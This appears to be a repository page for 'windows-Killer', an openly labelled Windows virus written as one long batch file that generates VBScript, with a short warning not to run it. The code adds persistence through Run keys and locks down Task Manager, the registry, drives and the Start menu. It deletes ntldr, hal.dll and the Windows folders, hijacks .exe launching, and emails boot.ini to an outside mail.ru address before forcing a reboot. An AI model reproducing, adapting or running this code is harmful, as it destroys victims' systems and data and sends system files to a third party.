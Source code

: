# windows-Killer
[SRC] Echo_inactive_inactive This virus created by NickName Echo_inactive_inactive Virus: forum.ru Virus Echo_inactive_inactive Autor: NickName Echo_inactive_inactive off echo Chr(39)>%temp%\temp1.vbs echo Chr(39)>%temp%\temp2.vbs echo on error resume next > %temp%\temp.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 copy %¶§% %SystemRoot%\user32dll.bat reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs echo on error resume next > %temp%\temp1.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs echo do>>%temp%\temp1.vbs echo fso.getfile ("A:\")>>%temp%\temp1.vbs echo loop>>%temp%\temp1.vbs echo on error resume next > %temp%\temp2.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs echo do>>%temp%\temp2.vbs echo execute"S.Run ""%comspec% /c echo "" &amp; Chr(7), 0, True">>%temp%\temp2.vbs echo loop>>%temp%\temp2.vbs reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f echo set application=createobject("shell.application")>>%temp%\temp.vbs echo application.minimizeall>>%temp%\temp.vbs reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f start rundll32 user32, SwapMouseButton reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f echo i=50 >> %temp%\temp.vbs echo while i^>0 or i^&lt;0 >> %temp%\temp.vbs echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs echo i=i-1 >> %temp%\temp.vbs echo wend >> %temp%\temp.vbs echo do >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{capslock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{numlock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs echo loop>> %temp%\temp.vbs echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs echo colCDROMs.Item(i).eject >> %temp%\temp.vbs echo next >> %temp%\temp.vbs echo End If >> %temp%\temp.vbs echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs echo Set Flds = iConf.Fields >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs echo Flds.Update >> %temp%\temp.vbs echo iMsg.Configuration = iConf >> %temp%\temp.vbs echo iMsg.To = strTo >> %temp%\temp.vbs echo iMsg.From = strFrom >> %temp%\temp.vbs echo iMsg.Subject = strSubject >> %temp%\temp.vbs echo iMsg.TextBody = strBody >> %temp%\temp.vbs echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs echo iMsg.Send >> %temp%\temp.vbs echo End Function >> %temp%\temp.vbs echo Set iMsg = Nothing >> %temp%\temp.vbs echo Set iConf = Nothing >> %temp%\temp.vbs echo Set Flds = Nothing >> %temp%\temp.vbs  echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs start %temp%\temp.vbs start %temp%\temp1.vbs start %temp%\temp2.vbs [/SRC]





A virus that kills Windows. Do not check on your computer
